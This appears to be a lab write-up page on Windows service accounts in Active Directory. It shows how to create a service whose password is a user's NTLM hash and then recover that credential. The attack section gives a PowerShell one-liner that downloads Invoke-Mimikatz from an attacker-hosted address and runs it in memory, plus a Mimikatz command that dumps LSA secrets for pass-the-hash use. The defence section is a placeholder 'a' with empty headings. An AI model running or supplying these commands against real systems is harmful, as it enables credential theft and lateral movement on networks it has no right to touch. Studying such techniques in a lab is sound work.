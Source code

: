 ```yaml
---
description: >-
  It's possible to create custom services, which will run with a local or a
  domain account. When you have high enough privilege's, it's possible to
  retrieve the credentials of the service.
---
```


# Services

## Configuring

### Prerequisite&#x20;

* domain account, which will run the service.&#x20;

### Configuring

We've created the user account _noah._

1. Login with an `Administrator` account into the machine, where you want to configure the service. In our example we will configure this within `WS01`.
2. Open up _cmd.exe_
3. We're going to execute the command:

```
sc create <name> binPath="C:\nonexisting.exe" obj="<username>@<domain>" password="<plaintext password or NTLM hash of the user>"
```

The password of the service can be fake. So to make our attack a bit more fun, we're going to place the NTLM hash of the user `Noah`. This will enable us to make it a 'pass-the-hash' attack.

In our example we're going to execute the following command:

```
 sc create TryToReadThePassword binPath="C:\Program Files\OfThisService.exe" obj="Noah@Amsterdam" password="02671733e400aa35ad23828f5df3b676"
```

When executed, we will get a success message.

## Attacking

### How it works



### Tools

* [MimiKatz ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

### Executing the attack

For this attack we need a high priviliged user.

1. Start PowerShell as an Administrator.
2. Execute MimiKatz. This can be done in many ways. In our example we will be hosting Invoke-mimikatz.ps1 on our attacker machine. Download mimikatz into memory using the following command and then execute MimiKatz:

```
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```

The result is that our freshly created service is shown, including with username and NTLM Hash:

![](../../../.gitbook/assets/image.png)

With the hash we can try to execute pass-the-hash attacks.

## Defending

### Recommendations

* a

### Detection



## References
